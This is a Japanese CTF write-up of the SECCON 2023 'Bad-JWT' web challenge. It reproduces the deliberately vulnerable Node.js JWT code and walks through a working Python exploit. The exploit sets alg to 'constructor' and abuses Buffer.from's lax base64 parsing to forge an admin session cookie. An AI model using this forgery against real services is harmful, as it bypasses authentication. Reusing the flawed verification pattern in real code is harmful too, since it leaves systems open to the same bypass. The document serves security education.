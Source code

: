 # SECCON CTF 2023 Quals - Bad-JWT

## Challenge

I think this JWT implementation is not bad.

[http://bad-jwt.seccon.games:3000](http://bad-jwt.seccon.games:3000)

### Files

<details>

<summary>配布されたソースコード</summary>

可読性向上のため、一部書き換えています。また、問題を解くにあたって不要な部分は省略しています。

`challenge/src/index.js`

```js
const FLAG = "SECCON{dummy}";
const PORT = "3000";

const express = require("express");
const cookieParser = require("cookie-parser");
const jwt = require("./jwt");

const app = express();
app.use(express.urlencoded({ extended: false }));
app.use(cookieParser());

const secret = require("crypto").randomBytes(32).toString("hex");

app.use((req, res, next) => {
  try {
    const token = req.cookies.session;
    const payload = jwt.verify(token, secret);
    req.session = payload;
  } catch (e) {
    return res.status(400).send("Authentication failed" + e);
  }
  return next();
});

app.get("/", (req, res) => {
  if (req.session.isAdmin === true) {
    return res.send(FLAG);
  } else {
    return res.status().send("You are not admin!");
  }
});

app.listen(PORT, () => {
  const admin_session = jwt.sign("HS512", { isAdmin: true }, secret);
  console.log(`[INFO] Use ${admin_session} as session cookie`);
  console.log(`Challenge server listening on port ${PORT}`);
});
```

`challenge/src/jwt.js`

```js
const crypto = require("crypto");

const base64UrlEncode = (str) => {
  return Buffer.from(str)
    .toString("base64")
    .replace(/=*$/g, "")
    .replace(/\+/g, "-")
    .replace(/\//g, "_");
};

const base64UrlDecode = (str) => {
  return Buffer.from(str, "base64").toString();
};

const algorithms = {
  hs256: (data, secret) =>
    base64UrlEncode(crypto.createHmac("sha256", secret).update(data).digest()),
  hs512: (data, secret) =>
    base64UrlEncode(crypto.createHmac("sha512", secret).update(data).digest()),
};

const stringifyPart = (obj) => {
  return base64UrlEncode(JSON.stringify(obj));
};

const parsePart = (str) => {
  return JSON.parse(base64UrlDecode(str));
};

const createSignature = (header, payload, secret) => {
  const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
  const signature = algorithms[header.alg.toLowerCase()](data, secret);
  return signature;
};

const parseToken = (token) => {
  const parts = token.split(".");
  if (parts.length !== 3) throw Error("Invalid JWT format");

  const [header, payload, signature] = parts;
  const parsedHeader = parsePart(header);
  const parsedPayload = parsePart(payload);

  return { header: parsedHeader, payload: parsedPayload, signature };
};

const sign = (alg, payload, secret) => {
  const header = {
    typ: "JWT",
    alg: alg,
  };

  const signature = createSignature(header, payload, secret);

  const token = `${stringifyPart(header)}.${stringifyPart(
    payload
  )}.${signature}`;
  return token;
};

const verify = (token, secret) => {
  const { header, payload, signature: expected_signature } = parseToken(token);

  const calculated_signature = createSignature(header, payload, secret);

  const calculated_buf = Buffer.from(calculated_signature, "base64");
  const expected_buf = Buffer.from(expected_signature, "base64");

  if (Buffer.compare(calculated_buf, expected_buf) !== 0) {
    throw Error("Invalid signature");
  }

  return payload;
};

module.exports = { sign, verify };
```

</details>

## Solution

### 1. 正常なアクセスを送信する

ソースコードを見ると、cookieの`session`にJWTトークンを設定すると、署名を検証することがわかります。

```js
const token = req.cookies.session;
```

JWTのシグネチャを計算するのは面倒なので、問題のソースコードを少し書き換えます。

```diff
const verify = (token, secret) => {
  const { header, payload, signature: expected_signature } = parseToken(token);

  const calculated_signature = createSignature(header, payload, secret);
+ console.log({calculated_signature, expected_signature})

  const calculated_buf = Buffer.from(calculated_signature, "base64");
  const expected_buf = Buffer.from(expected_signature, "base64");

  if (Buffer.compare(calculated_buf, expected_buf) !== 0) {
    throw Error("Invalid signature");
  }

  return payload;
};
```

これで適当なJWTトークンを送信すると、シグネチャの計算結果が表示されます。2回送信すれば正しいシグネチャがわかるので署名が受理されるはずです。

```py
import base64
import requests
import json


header = {"typ": "JWT", "alg": "HS256"}
headerStr = json.dumps(header).encode("utf-8")
body = {"isAdmin": True}
bodyStr = json.dumps(body).encode("utf-8")

def base64_encode(str:str):
    return base64.b64encode(str).replace(b"=", b"").replace(b"+", b"-").replace(b"/", b"_")

headerBase64 = str(base64_encode(headerStr))[2:-1]
bodyBase64 = str(base64_encode(bodyStr))[2:-1]

jwt = f"{headerBase64}.{bodyBase64}.ここにシグネチャを入れる"


res = requests.get("http://localhost:3000/", cookies={"session": jwt})

print(res.text)
```

### 2. 不正なシグネチャを作成する

攻撃者が入力できる内容はJWTトークンのみです。つまり、JWTのheader(`alg`, `typ`)、body、signature(壊れているもの)のみです。
ここで、bodyは`{"isAdmin": True}`にするしかなさそうで、かつheaderの`typ`は使用されていなさそうなので、考えられることは以下の2つです。

- headerの`alg`を変更する
- 壊れた`signature`でも署名を通す

結論から言うと、両方とも必要なので、前者から説明します。

`alg`を使用されている箇所を見ると、`createSignature`関数があります。これをよく見ると、なかなか怪しそうです。`algorithms`変数にはオブジェクトが入っていますが、ユーザの入力の文字列をそのまま受け取っています。JavaScriptのオブジェクトに対する`[]`アクセサには、例えば`__proto__`など、いくつかの特殊なキーがあります。今回は式の後半に`(data, secret)`が入っており、アクセスした結果、引数が2つ(またはoptionalな引数がそれ以上)の関数が返ってくる必要があります。

```js
const createSignature = (header, payload, secret) => {
  const data = `${stringifyPart(header)}.${stringifyPart(payload)}`;
  const signature = algorithms[header.alg.toLowerCase()](data, secret);
  return signature;
};
```

そこで、`constructor`を使用します。`constructor`は関数で、引数は可変です。また、`Object[constructor](data, secret)`はdataを文字列として受け取り、`[String: 'eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ']`だけが返ります。つまり、secretに依存しません。

先ほどのコードを少し書き換えて、送信してみます。

```py
import base64
import requests
import json


header = {"typ": "JWT", "alg": "constructor"}
headerStr = json.dumps(header).encode("utf-8")
body = {"isAdmin": True}
bodyStr = json.dumps(body).encode("utf-8")


def base64_encode(str: str):
    return (
        base64.b64encode(str).replace(b"=", b"").replace(b"+", b"-").replace(b"/", b"_")
    )


headerBase64 = str(base64_encode(headerStr))[2:-1]
bodyBase64 = str(base64_encode(bodyStr))[2:-1]

jwt = f"{headerBase64}.{bodyBase64}.foo"

res = requests.get("http://localhost:3000/", cookies={"session": jwt})

print(res.text)
```

すると、以下の内容が返ってきます。

```txt
{
  expected_signature: 'foo',
  calculated_signature: [String: 'eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ']
}
```

ここで、jwtのシグネチャを書かれているものと同じにします。

```js
jwt = f"{headerBase64}.{bodyBase64}.eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ"
```

すると当然ですが、`.`が4つではInvalid JWT formatです。また、`expected_signature`はstring、`calculated_signature`はオブジェクトになります。当然これでは一致しません。


### 3. Bypass `Buffer.compare`

`Buffer.from`の[ドキュメント](https://nodejs.org/api/buffer.html#static-method-bufferfromobject-offsetorencoding-length)を読んでみましょう。

以下のテキストが書かれています。

> For objects that support Symbol.toPrimitive, returns Buffer.from(object[Symbol.toPrimitive]('string'), offsetOrEncoding).

試してみましょう！

```js
class Foo {
  [Symbol.toPrimitive]() {
    return "ABC";
  }
}

const buf1 = Buffer.from(new Foo());

console.log({ buf1 }); // { buf1: <Buffer 41 42 43> }
```

確かにテキストの部分のみが取り出されています。ここで、`Buffer.from`の第二引数に`base64`を指定しつつ、Base64として使用されない文字列を挿入してみます。

```js
class Foo {
  [Symbol.toPrimitive]() {
    return "eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9";
  }
}
class Bar {
  [Symbol.toPrimitive]() {
    // add $^.
    return "eyJ0eXAi$O$iJK^V1&Qi.LCJh.&bGc.i^Oi.Jjb.25z^dHJ1Y3RvciJ9"; // ^^
  }
}

const buf1 = Buffer.from(new Foo(), "base64");
const buf2 = Buffer.from(new Bar(), "base64");

console.log({ buf1, buf2 });
//{
//  buf1: <Buffer 7b 22 74 79 70 22 3a 22 4a 57 54 22 2c 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d>,
//  buf2: <Buffer 7b 22 74 79 70 22 3a 22 4a 57 54 22 2c 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d>
//}
```

Base64として使用されない文字は無視されることがわかりました。これを利用します。

jwt tokenを以下のように書き換えます。

```py
jwt = f"{headerBase64}.{bodyBase64}.eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9eyJpc0FkbWluIjp0cnVlfQ"
```

すると、`signature`は確かに違いますが、`Buffer.from`でピリオドが削除され、`Buffer.compare`の結果が0になります。

```txt
{
  expected_signature: 'eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9eyJpc0FkbWluIjp0cnVlfQ',
  calculated_signature: [String: 'eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9.eyJpc0FkbWluIjp0cnVlfQ'],
  calculated_buf: <Buffer 7b 22 74 79 70 22 3a 22 4a 57 54 22 2c 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d 7b 22 69 73 41 64 6d 69 6e 22 3a 74 72 75 65 7d>,
  expected_buf: <Buffer 7b 22 74 79 70 22 3a 22 4a 57 54 22 2c 22 61 6c 67 22 3a 22 63 6f 6e 73 74 72 75 63 74 6f 72 22 7d 7b 22 69 73 41 64 6d 69 6e 22 3a 74 72 75 65 7d>
}
```

### 4. Get flag

<details>
<summary>Final Payload</summary>

```python
import base64
import requests
import json


header = {"typ": "JWT", "alg": "constructor"}
headerStr = json.dumps(header).encode("utf-8")
body = {"isAdmin": True}
bodyStr = json.dumps(body).encode("utf-8")


def base64_encode(str: str):
    return (
        base64.b64encode(str).replace(b"=", b"").replace(b"+", b"-").replace(b"/", b"_")
    )


headerBase64 = str(base64_encode(headerStr))[2:-1]
bodyBase64 = str(base64_encode(bodyStr))[2:-1]

jwt = f"{headerBase64}.{bodyBase64}.eyJ0eXAiOiJKV1QiLCJhbGciOiJjb25zdHJ1Y3RvciJ9eyJpc0FkbWluIjp0cnVlfQ"

res = requests.get("http://bad-jwt.seccon.games:3000", cookies={"session": jwt})

print(res.text)
```

</details>

```txt
SECCON{Map_and_Object.prototype.hasOwnproperty_are_good}
```
